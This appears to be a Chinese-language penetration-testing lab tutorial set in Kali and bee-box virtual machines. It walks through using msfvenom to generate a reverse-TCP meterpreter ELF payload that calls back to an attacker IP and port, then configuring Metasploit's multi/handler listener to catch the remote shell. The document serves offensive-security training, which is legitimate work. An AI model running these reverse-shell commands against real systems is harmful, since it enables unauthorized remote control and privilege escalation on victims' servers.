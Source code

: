 # 使用 Metasploit 创建并捕获反向 Shell

当我们在服务器上获得命令执行权限时，通常是通过一个受限的 Web Shell。接下来，我们需要做的是找到一种方法，将这个受限的 Shell 升级为完全交互式的 Shell，并最终提升为 root/管理员权限。

在这个教程中，我们将学习如何使用 Metasploit 的 `msfvenom` 创建一个可执行程序，触发与我们的攻击机连接并生成一个高级 Shell（meterpreter），以便我们进一步利用服务器。

# 如何做到这一点...

对于这个练习，请确保 Kali 和 bee-box 虚拟机都在运行，然后按照以下步骤操作：

1.  首先，我们使用 `msfvenom` 生成我们的反向 meterpreter Shell，并将其设置为连接回 Kali 主机的 IP 地址。打开 Kali 中的终端并输入以下命令：

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.56.10 LPORT=4443 -f elf > cute_dolphin.bin
```

![](img/9a25e509-0f89-4175-abed-618b4b9e441d.png)

这将创建一个名为 `cute_dolphin.bin` 的文件，这是一个反向 Linux meterpreter Shell；反向意味着它将连接回攻击机器，而不是等待我们连接。

1.  接下来，我们需要为即将由我们可爱的海豚创建的连接设置一个监听器。打开一个 `msfconsole` 终端，加载完成后，输入以下命令：

```
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set lhost 192.168.56.10
set lport 4443
run
```

如你所见，载荷、`lhost` 和 `lport` 是我们用来创建 `.bin` 文件的。这是程序将要连接的 IP 地址和 TCP 端口，因此我们需要在 Kali Linux 的网络接口上监听该端口。最终的漏洞配置应该如下所示：

![](img/b8db6eac-beb7-4dc2-b40d-4fa4556361be.png)
